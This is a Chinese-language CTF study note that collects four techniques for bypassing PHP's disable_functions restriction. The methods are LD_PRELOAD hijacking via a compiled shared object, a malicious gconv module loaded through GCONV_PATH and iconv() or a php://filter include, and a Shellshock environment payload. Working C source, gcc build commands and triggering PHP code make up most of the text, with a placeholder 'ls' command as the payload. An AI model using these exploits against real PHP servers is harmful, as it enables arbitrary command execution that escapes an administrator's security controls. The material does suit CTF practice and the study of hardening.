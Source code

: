# 主要思路
	- 使用环境变量等方式控制php执行c库中的函数，从而绕过php自带的disable_function安全机制
- # 参考
	- https://www.lxscloud.top/2022/04/15/PHP-Bypass-disable_function/
	- [[CTF/PHP/FFI]]
- # 提示
	- 下面的方式都需要写入文件，实际操作时可以考虑使用[[CTF/PHP/利用FTP进行文件写入]]进行文件写入
- # 方式一
	- 要求
		- 允许函数putenv()和error_log()或mail()且存在可写目录和可以传输文件到靶机
	- 步骤
		- 把这个编译为`exp.so`扔进某个文件夹（例如`/tmp/`）中
			- ```c
			  #include <stdlib.h>
			  #include <stdio.h>
			  
			  int geteuid() {
			  	if(getenv("LD_PRELOAD") != NULL) { 
			  		unsetenv("LD_PRELOAD");
			  		system("ls / > /tmp/t.txt"); // payload在这
			  	} else {
			  		return 0;
			  	}
			  }
			  ```
			- ```shell
			  gcc exp.c -o exp.so -shared -fPIC
			  ```
		- PHP执行
			- ```php
			  <?php 
			  putenv("LD_PRELOAD=/tmp/exp.so");
			  # exp.so在下面这行被调用
			  error_log("",1,"","");
			  # 当然我们还有
			  mb_send_mail("a@localhost","","","","");
			  # 当然我们还有
			  mail("","","","");
			  ?>
			  ```
- # 方式二
  id:: 64f02a3a-0eae-4d6c-8b73-8b34d2a17473
	- 注意
		- 这里复现时有一个坑，就是如果PHP执行没反应需要多执行几次（大概手搓十几次这样）
	- 要求
		- 允许函数putenv()、iconv()和可以传输文件到靶机
	- 步骤
		- 把这个编译了放进目标中（比如说放进`/tmp/exp.so`）
			- ```c
			  #include <stdio.h> 
			  #include <stdlib.h> 
			  
			  void gconv() {
			  }
			  
			  void gconv_init() {  
			  	system("ls / > /tmp/t.txt");
			  }
			  ```
			- ```shell
			  gcc exp.c -o exp.so -shared -fPIC
			  ```
		- 把这个写进同一个文件夹（这里是`/tmp/`）中的`gconv-modules`中
			- ```text
			  module  exp//    INTERNAL    /tmp/exp    2
			  module  INTERNAL   exp//    /tmp/exp    2
			  ```
		- 最后执行这里的php
			- ```php
			  <?php 
			  putenv("GCONV_PATH=/tmp/"); // 当然这里是tmp文件夹
			  iconv("exp", "UTF-8", "");
			  ?>
			  ```
- # 方式三
	- 方式二的变种
	- 要求：允许putenv和使用convert.iconv这个`php://`伪协议的filter
	- 步骤：和方式二相同，只不过执行的PHP变成这个：
		- ```php
		  <?php
		  putenv("GCONV_PATH=/tmp/"); 
		  include('php://filter/read=convert.iconv.exp.utf-8/resource=/proc/self/cmdline');
		  ?>
		  ```
- # 方式四
	- > 未复现
	- 当然是shell shock
		- ```php
		  <?php
		  putenv("PHP_flag=() { :; }; ls / > /tmp/t.txt");
		  error_log("",1,"","");
		  ?>
		  
		  ```